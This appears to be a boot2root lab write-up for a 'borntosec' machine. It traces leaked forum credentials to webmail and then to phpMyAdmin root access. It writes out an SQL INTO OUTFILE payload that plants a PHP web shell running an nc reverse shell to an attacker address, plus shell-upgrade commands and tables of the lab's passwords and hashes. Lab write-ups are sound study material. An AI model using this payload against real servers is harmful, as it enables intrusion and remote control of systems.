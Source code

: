 # Port 443 (HTTPS)

- `https://<IP>/forum/index.php?id=6` leak credentials to access forum as `lmazard`

- User `lmazard` use same password for `webmail` and `forum`

- User `lmazard` mail box leak credentials to access `phpmyadmin` as `root`

- Adding reverse shell backdoor via `phpmyadmin`:

```sql
SELECT '<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc <ip_addr> 4242 >/tmp/f"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Once connected, we can upgrade our shell into a full TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#[CTRL+Z]
```

```bash
stty raw -echo
fg
#[ENTER]
#[ENTER]
```

Now we have a full shell as `www-data`

## Credentials found

### `https://$ip/forum`

| Login | Password |
|-|-|
| `lmezard` | [Plain] `!q\]Ej?*5K5cy*AJ` |
| `admin` | [Hex ?] `ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0516d551c28` |
| `qudevide` | [Hex ?] `a12e059d6f4c21c6c5586283c8ecb2b65618ed0a0dc1b302a2` |
| `thor` | [Hex ?] `d30668b779542d60c4cde29e7170148198b1623f4453866797` |
| `wandre` | [Hex ?] `f8562b53084d60efa4208fa50d1ef753ef18e089d2dd56c4ed` |
| `zaz` | [Hex ?] `f10b3271bf523f12ebd58ef8581c851991bf0d4b4c4bf49d7c` |

### `https://$ip/webmail`

| Login | Password |
|-|-|
| `laurie@borntosec.net` | [Plain] `!q\]Ej?*5K5cy*AJ` |

### `https://$ip/phpmyadmin`

| Login | Password |
|-|-|
| `root` | [Plain] `Fg-'kKXBj87E:aJ$` |
| `phpmyadmin` | [Plain] `Fg-'kKXBj87E:aJ$` |
| `debian-sys-maint` | [SHA-1] `52B24D4192EDDFB439C67E1F92421C4D2D4F5598` |
